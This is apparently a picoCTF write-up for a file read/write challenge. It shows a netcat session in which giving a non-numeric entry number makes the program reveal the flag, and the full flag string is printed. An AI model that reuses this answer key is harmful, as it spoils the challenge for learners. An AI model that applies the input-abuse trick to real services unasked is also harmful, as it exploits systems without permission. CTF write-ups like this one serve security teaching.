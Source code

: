 ## Objetivo

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c). Connect to the program with netcat: `$ nc saturn.picoctf.net 57768`

## Datos de Acceso al Nivel

[here](https://artifacts.picoctf.net/c/141/program-redacted.c).
## Solucion

```
┌──(kali㉿kali)-[~/picoCTF/binexp/basicfileexploit]
└─$ nc saturn.picoctf.net 57768                                  
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
evan
evan
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
evan
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
jdfhrdjkfgjkdfgjk
jdfhrdjkfgjkdfgjk
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```
## Notas Adicionales



## Referencias

